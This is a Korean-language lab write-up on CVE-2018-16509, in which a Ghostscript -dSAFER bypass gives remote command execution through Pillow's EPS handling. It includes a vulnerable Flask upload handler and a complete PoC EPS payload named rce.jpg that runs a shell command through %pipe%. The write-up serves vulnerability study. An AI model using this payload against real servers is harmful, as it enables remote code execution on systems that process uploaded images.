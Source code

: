 # Ghostscript CVE-2018-16509를 통한 Python PIL/Pillow 원격 셸 명령 실행

Ghostscript는 Adobe Systems PostScript 및 PDF(Portable Document Format) 페이지 설명 언어용 인터프리터 기반 소프트웨어이다. 

Ghostscript가 다른 소프트웨어(예: ImageMagick)의 종속되어서 설치되어 있기 때문에 응용 프로그램이 직접 사용하지 않더라도 프로덕션 서버(예: /usr/local/bin/gs 또는 /usr/bin/gs)에 Ghostscript가 존재한다. 
Ghostscript에는 많은 취약점이 발견되었는데, 그 중 하나는 CVE-2018-16509(Google Project Zero의 Tavis Ormandy에 의해 발견됨)이며, 이 취약점을 통해 v9.24 이전 버전에서는 Ghostscript의 -dSAFER bypass 공격이 임의 명령을 실행하여 LockSafetyParams를 비활성화하고 잘못된 액세스를 방지할 수 있다.
이 취약점은 Ghotscript wrapper가 있는 프로그래밍 언어의 ImageMagick 또는 image library와 같은 라이브러리를 통해 발견할 수 있다.

## 취약점
rce.jpg(실제 JPG가 아닌 특수 제작된 EPS 이미지)를 업로드하여 서버에서 touch /tmp/got_rce를 실행할 수 있다. 
docker exec [CONTER_ID] ls -alt /tmp를 실행해서 이를 볼 수 있다. CONTERNER_ID는 docker container ls로 확인할 수 있다.
셸 실행을 다른 명령으로 변경하려면 rce.jpg에서 직접 touch /tmp/got_rce를 변경하면 된다.

## 분석
oss-security에서 Tavis Ormandy의 취약점에 대한 설명을 참고할 수 있다.

PIL/Pillow의 소스코드 Ghostscript wrapper는 EPSImagePlugin.py 에서 확인할 수 있다.

취약한 코드 예시 `app.py`:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)

        if not file:
            flash('No image found')
            return redirect(request.url)

        filename = file.filename
        ext = path.splitext(filename)[1]

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
            flash('Invalid extension')
            return redirect(request.url)

        tmp = tempfile.mktemp("test")
        img_path = "{}.{}".format(tmp, ext)

        file.save(img_path)

        img = Image.open(img_path)
        w, h = img.size
        ratio = 256.0 / max(w, h)

        resized_img = img.resize((int(w * ratio), int(h * ratio)))
        resized_img.save(img_path)
```
업로드된 파일의 내용은 img = Image.open(img_path)로 로드된다.
PIL이 이미지가 EPS 이미지인지 아닌지 자동으로 감지해준다(예: 파일 시작에 %!PS-Adobe-3.0 EPSF-3.0).
EPSImagePlugin.py 의 EpsImageFile 클래스에서 _open ()를 호출한다. 
IOError("cannot determine EPS bounding box")를 피하기 위해, 파일에 바운딩 박스를 추가해야 한다(예: %%BoundingBox: -0 -0 100).

EPS 이미지 본문은 Ghostscript 기능의 EPSImagePlugin.py 에서 볼 수 있듯이 하위 프로세스와 함께 Ghostscript binary로 처리된다.

```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```

위 코드는 `load`가 호출되었을 떄 호출된다. [Image.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/Image.py) 따라서 이미지를 단순히 여는 것만으로는 취약점이 발생하지 않는다. `resize`, `crop`, `rotate`, and `save` 등의 함수들이 `load` 를 호출하고 취약점을 유발한다.
Tavis Ormandy의 POC와 결합하여 원격 셸 명령 실행을 위한 rce.jpg를 제작할 수 있다.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```